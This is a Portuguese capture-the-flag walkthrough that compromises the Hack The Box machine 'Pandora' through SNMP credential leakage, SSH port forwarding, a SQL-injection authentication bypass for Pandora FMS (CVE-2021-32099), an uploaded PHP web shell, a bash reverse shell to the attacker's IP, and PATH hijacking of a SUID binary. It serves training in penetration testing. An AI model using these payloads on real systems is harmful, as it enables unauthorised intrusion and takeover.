

1. [Resolução da máquina **Pandora**](#resolução-da-máquina-pandora) 1. [Máquina EASY (hackthebox.com)](#máquina-easy-hacktheboxcom) 2. [by **_JavaliMZ_** - 02/02/2022](#by-javalimz---02022022)
2. [Introdução](#introdução)
3. [Enumeração](#enumeração)
    1. [Nmap](#nmap)
    2. [VirtualHosting e WebPage](#virtualhosting-e-webpage)
    3. [SNMP](#snmp)
4. [Getting Shell](#getting-shell)
    1. [SSH](#ssh)
    2. [Enumeração do sistema](#enumeração-do-sistema)
    3. [VirtualHost](#virtualhost)
    4. [PortForwarding](#portforwarding)
    5. [CVE-2021-32099](#cve-2021-32099)
    6. [RCE com usuário **matt**](#rce-com-usuário-matt)
        1. [Estabilizar o Reverse Shell](#estabilizar-o-reverse-shell)
5. [Escalada de privilégio](#escalada-de-privilégio)
    1. [Path Hijacking](#path-hijacking)
        1. [Não funcionou! Porquê?](#não-funcionou-porquê)


# Resolução da máquina **Pandora**

#### Máquina EASY (hackthebox.com)

#### by **_JavaliMZ_** - 02/02/2022

---

---

# Introdução

Olá pessoal! Já faz um tempo desde que escrevi um writeup, mas decidi escrever este porque a máquina é relativamente simples e apresenta conceitos interessantes. Além disso, até o momento em que escrevo este artigo, eu tinha apenas uma máquina Linux, enquanto possuía sete máquinas Windows. Então, decidi que era hora de criar novo conteúdo.

# Enumeração

## Nmap

Seguindo a metodologia padrão, iniciamos a enumeração das portas da máquina utilizando o **nmap**:


Após a execução do **nmap**, foi identificado que aparentemente apenas duas portas TCP estão abertas, a porta SSH e a porta HTTP.


Utilizando a ferramenta _whatweb_, foram encontrados dois endereços de e-mail relacionados à máquina: *contact@panda.htb* e *support@panda.htb*. Isso pode indicar a presença de um servidor de e-mail SMTP ou de Virtual Hosting. Acerca do serviço de e-mail, não existe nenhuma porta relacionada aberta. Como se trata de uma máquina de dificuldade fácil, vamos descartar a possibilidade de existir um servidor de e-mail SMTP.

## VirtualHosting e WebPage

Para verificar se existe Virtual Hosting, vamos começar pelo básico: adicionar o host ao arquivo /etc/hosts. Temos um potencial hostname válido, o **panda.htb**

```powershell
sudo su
echo "\n\n10.10.11.136\tpanda.htb" >> /etc/hosts
```

Ao acessar o URL http://10.10.11.136/ ou http://panda.htb, não foram encontradas alterações na página.

Após a enumeração das rotas do site, tanto pelo http://10.10.11.136/ quanto pelo http://panda.htb, nada de interessante foi encontrado. Também foram testados outros nomes de hosts com a mesma ferramenta, mas nada de novo foi descoberto. Para isso, é necessário adicionar os novos hosts ao arquivo /etc/hosts.

```powershell
# Enumeração das rotas do site http://panda.htb, bem como de possíveis ficheiros txt, js, html, php. Para o site http://10.10.11.136/ é só substituir... mas o resultado é o mesmo
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://panda.htb/FUZZ -t 200 -r -e .txt,.js,.html,.php

# Enumeração dos hosts
# Primeiro, perceber quantos caracteres compõem a mensagem de erro normal
curl -s -H "Host: iuagveifjhbakjdsbfkjabskdfjba.panda.htb" http://panda.htb | wc -c  # 33560
# Depois filtrar as resposta com esse tamanho para não aparecer uma lista enorme de falsos positivos adicionando "-fs 33560" ao commando para enumerar os hosts
ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://panda.htb -H "Host: FUZZ.panda.htb" -t 200 -fs 33560
```

Não houve resposta ao último comando e o site não apresenta nenhum campo editável ou parâmetro para explorar. Estamos bloqueados. O que fazer agora?

Bem, ainda não exploramos as portas UDP! Por padrão, o Nmap usa a flag -sT (TCP SCAN), mesmo que não seja especificado manualmente, mas existem outras opções. Para escanear as portas UDP, é necessário usar a flag -sU (e ser **root**!). Esse método de scan é extremamente lento devido à natureza do protocolo.

-   Em TCP, sempre há uma confirmação de resposta, primeiro para confirmar que o alvo está receptivo e, em segundo lugar, para confirmar que recebeu a mensagem.
-   Em UDP, é mais ou menos _Tenho isto para enviar, então envio. Só. Que se lixe se alguém recebe... Estou-me nas tintas_. É chamado de **_ConnectionLess_**

Portanto, no UDP, o Nmap não pode saber se a conexão está demorando porque não está aberta, se foi bloqueada por um firewall ou se está aberta, mas para um programa que não tem a função de enviar uma resposta (está recebendo silenciosamente a informação que o Nmap enviou), ou seja, o que for...

Em resumo, no UDP (e considerando que estamos em um CTF), é recomendável limitar o número de portas às 20 portas mais comuns (por exemplo).

```powershell
sudo nmap --top-ports 20 -sU $IP -vvv
# ...
# 161/udp   open          snmp         udp-response ttl 63
# ...
```

Encontramos a confirmação de que uma porta está aberta! A porta UDP 161. Existem várias ferramentas para "bruteforcear" o serviço SNMP associado, como o _snmpwalk_ e o _snmp-check_.

Ambos realizam a mesma tarefa, mas o snmpwalk apresenta o resultado em bruto, o que não é agradável à vista. Portanto, recomendo o uso do snmp-check para a enumeração do serviço SNMP.

## SNMP

Já agora, o que é este serviço?

SNMP (Simple Network Management Protocol) é um protocolo padrão para gerenciamento de redes. Ele é usado para monitorar e gerenciar dispositivos de rede, como roteadores, switches, servidores e outros dispositivos de rede. O SNMP permite que os administradores de rede monitorem o desempenho da rede, detectem problemas e gerenciem dispositivos de rede remotamente. Ele usa uma arquitetura cliente-servidor, onde os dispositivos de rede são os servidores e os computadores de gerenciamento são os clientes. O SNMP é um protocolo de rede amplamente utilizado e é suportado por muitos dispositivos de rede.

```powershell
snmp-check 10.10.11.136
# ...
# 127.0.0.1    3306         0.0.0.0      0            listen
# 127.0.0.53   53           0.0.0.0      0            listen
# ...
# 1274   runnable   host_check   /usr/bin/host_check   -u daniel -p HotelBabylon23
# ...
```

No meio de um pouco mais de 1200 linhas, podemos ver duas informações relevantes.

-   Está a ser executado por uma tarefa cronica um comando **"host_check"** e vemos em texto claro possíveis credenciais... **_daniel:HotelBabylon23_**
-   Existe realmente um serviço de virtualhosting a rodar na porta 53. Ainda não sabemos se é relevante ou não.

# Getting Shell

## SSH

A porta SSH encontra-se aberta, e temos credenciais. Vamos simplesmente tentar fazer login via SSH.

```powershell
sshpass -p HotelBabylon23 ssh daniel@10.10.11.136
```

Estamos na máquina!


## Enumeração do sistema

Após meia dúzia de comandos pela máquina, percebi o seguinte:


Existe um binário bastante suspeito! pandora\*backup. É SUID. Significa que, neste caso, o usuário "\*\*\_matt**\*" executa este ficheiro temporariamente enquanto usuário "**_root_**". Logo, se conseguirmos ser "**_matt_\*\*", podemos tentar ver o que se passa com o binário, e se este apresenta algum tipo de vulnerabilidade.

## VirtualHost

Agora que estamos na máquina, podemos verificar se existe virtual hosting. Para isso, tenho feito da seguinte maneira:

-   Verificar o servidor web
-   Sabendo o servidor web, pesquisar o diretório/ficheiro onde está armazenado a informação de virtual hosting.

Para este caso, nos já sabemos o servidor web que está a ser usado, pelo comando "**_whatweb_**" que efetuamos logo no início, depois do nosso "**_nmap_**". É um Apache 2.4.41. Normalmente, a pretendida informação encontra-se no diretório /etc/apache2/sites-available/


Agora sim podemos afirmar que existe algo mais. Exite um site geral, acessível por toda a web **(\<VirtualHost \*:80>)** com o seu conteúdo definido em /var/www/html, e existe outro site, acessível apenas pelo localhost **(\<VirtualHost localhost:80>)** cujo diretório referente encontra-se em /var/www/pandora.

> E agora? o que fazemos com esta informação?

Podemos tentar ver os ficheiros todos do site. Pode sempre existir informações, credenciais em texto claro... Mas primeiro, queremos simplesmente visualizar a página web. Para isso, vamos recorrer a port forwarding.

> Ok... Mas já estamos na máquina alvo... para que serve de "sair" para "entrar" de novo por outra via?

```powershell
daniel@pandora:/var/www$ ll
total 16
drwxr-xr-x  4 root root 4096 Dec  7 14:32 ./
drwxr-xr-x 14 root root 4096 Dec  7 14:32 ../
drwxr-xr-x  3 root root 4096 Dec  7 14:32 html/
drwxr-xr-x  3 matt matt 4096 Dec  7 14:32 pandora/
```

Pode servir para diversas coisas. Pode o novo site ter um serviço com credenciais de todos os usuários, pode ter acesso a uma base de dados com mais privilégios, e muitas coisas mais... Neste caso, vai nos servir para o seguinte:

-   O site principal, aberto ao público, não tem nada de relevante, não tem pontos de entrada.
-   O segundo site, apenas acessível pelo localhost, tem como proprietário e "_AssignUserID_" o usuário "**_matt_**". Significa que tudo o que for feito nesta página será executado por "**_matt_**"!. Se for encontrado vulnerabilidades, podemos até executar código (RCE) com o usuário "**_matt_**".

## PortForwarding

Para fazer port forwarding, podemos usar uma ferramenta que nunca me falhou, é fácil de usar e é multi plataforma: O "**_Chisel_**". Mas para este caso nem vai ser necessário, porque estamos na máquina via SSH, e o próprio SSH tem a opção de port forwarding. Para isso, basta terminar a conexão actual com a máquina vítima, e entrar novamente com uma flag a mais. A flag "**_-L_**"

```powershell
sshpass -p HotelBabylon23 ssh daniel@10.10.11.136 -L 80:127.0.0.1:80
```

A partir de agora, o nosso próprio kali-linux (ou o sistema que for) está com a porta 80 ocupada com o servidor web da máquina vítima.



Estamos enfrentando uma página de login de um serviço chamado **Pandora FMS**. É basicamente um serviço de monitoramento de serviços. E por lá, podemos uploadar ficheiros sem restrições, e acessá-los também, o que significa que podemos executar código PHP de um ficheiro PHP que previamente se upload com o objectivo de executar comando de sistema (RCE). Agora só falta entrar. Vamos ver primeiro se tem vulnerabilidades conhecidas. Precisamos para isso saber a versão do Pandora. O Pandora tem uma api, segundo a documentação, e lá, podemos ver como fazer para extrair a versão do pandora FMS

> [Documentação do pandora - api](https://pandorafms.com/manual/en/documentation/08_technical_reference/02_annex_externalapi)

```powershell
curl http://127.0.0.1/pandora_console/include/api.php?info=version
# Pandora FMS v7.0NG.742_FIX_PERL2020 - PC200103 MR34
```

Pesquisando com a ferramenta "**_searchsploit_**", não foi possível encontrar nenhum exploit que funcionasse. Pesquisando pelo google, vi que o próprio site da Pandora FMS tem tudo sobre as suas vulnerabilidades!


## CVE-2021-32099

Esta vulnerabilidade parece perfeita para o nosso caso. A versão é exatamente a mesma, e permite um usuário random não autenticado entrar sem password nem nada.

> Existe também um exelente artigo a explicar a vulnerabilidade: [Artigo](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)

E no github, encontramos tudo e mais alguma coisa sobre todos os assuntos! Este assunto não é exceção.

> [POC CVE-2021-32099](https://github.com/ibnuuby/CVE-2021-32099)

Pelos vistos basta entrar na página normal de login, e adicionar à URL **http://localhost/pandora_console/** o seguinte: **include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271**

Depois voltar á página inicial de login e já está... **http://localhost/pandora_console/**

## RCE com usuário **matt**


Para executar comandos, é bastante simples. No File manager, é só fazer o upload de um ficheiro para executar comando. Eu vou logo executar o reverse shell, mas poderiamos criar outro ficheiro:

```php
# Existe mil e uma forma de executar comandos, dependendo de como está montado o serviço PHP. Para dar apenas 2 exemplos:
# Para RCE, através de um parâmetro:
<?php
	 echo "\nURL Shell... url?cmd=<command>\n\n";
	 echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>

# Para diretamente ter o reverse shell:
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.230/443 0>&1'");?>
```

```powershell
# Executar o nc em modo de escuta para receber o shell:
kali@kali: >     nc -lvnp 443

# Em outra consola, executar o ficheiro que "uploadamos" (Eu escolhi chamar o ficheiro de shell.php...)
kali@kali: >     curl http://localhost/pandora_console/images/shell.php
```

### Estabilizar o Reverse Shell

```powershell
script /dev/null -c bash
export TERM=xterm
export SHELL=bash

# Ctrl + Z
stty raw -echo; fg
reset
stty rows 40 columns 170  # Tem corresponder ao vosso ecrã (stty -a numa consola do Kali)
```

# Escalada de privilégio

Agora que somos matt, podemos analisar o tal binário pandora_backup


No meio desses caracteres todos, podemos ver um clienttar -cvf /root/...

Este parece ser um simples comando "**_tar_**" que se colou a uma palavra "client" por não haver caracteres ASCII pelo meio. Significa que, quem fez o binário, aparentemente, usou um simples comando "**_tar_**" para fazer o backup, mas não usou o caminho completo para chamar a ferramenta.

O que isto quer dizer?

## Path Hijacking

Sabemos que o binário pandora_backup usa o tar. Onde se encontra isso?

```powershell
which tar
# /usr/bin/tar
```

Ok. Mas como é que o computador sabe que está ali o programa? Existe uma variável no shell que indica isso. Chama-se PATH:

```powershell
echo $PATH
# /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

É assim que o computador procura o programa, primeiro procura em "**_/usr/local/sbin_**", depois em "**_/usr/local/bin_**", e assim sucessivamente. Todas as pastas estão separadas pelos dois pontos ":". Mas esta variável é apenas uma variável que o nosso shell actual têm, que facilmente se altera.

```powershell
export PATH=.:$PATH
echo $PATH
# .:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Adicionamos um ponto "." à primeira pasta onde o computador vai procurar pelo programa. Significa que o computador vai procurar no diretório atual, e só depois nos outros diretórios.

Assim, basta criar um executável de nome "**_tar_**" numa pasta qualquer, e executar o binário pandora\*backup a partir da mesma posição, para o linux assumir que o "\*\*\_tar**\*" correto é o nosso próprio ficheiro "**_tar_**". E, já que o binário pandora_backup é SUID, e o seu proprietário é "**_root_**", significa que podemos escrever o que nos apetecer para que seja executado como "**_root_\*\*". O mais fácil é chamar um bash novo...


#### Não funcionou! Porquê?

Sinceramente não sei, o que sei é que pelo ssh funcionou nesta máquina... Quando vi que não funcionou, procurei outra solução. criei uma chave id_rsa só para ter melhor conexão, conectei-me via SSH e o mesmo exploit funcionou... OK. Mistérios do Hacking!

```powershell
ssh-keygen
cd /home/matt/.ssh
cat id_rsa.pub > authorized_keys
cat id_rsa
# Copiar o conteúdo e colar num novo ficheiro no nosso kali
kali@kali: >     nano id_rsa
kali@kali: >     # Colar e gravar
kali@kali: >     chmod 600 id_rsa
kali@kali: >     ssh matt@10.10.11.136 -i id_rsa
```

E agora, exatamente da mesma posição, alterando primeiro a variável PATH, optemos uma shell root


Agora já somos ROOT! Só falta as flags...

> Obrigador por lerem o writeup! Até à próxima<br> Criadores da máquina: TheCyberGeek e dmw0ng
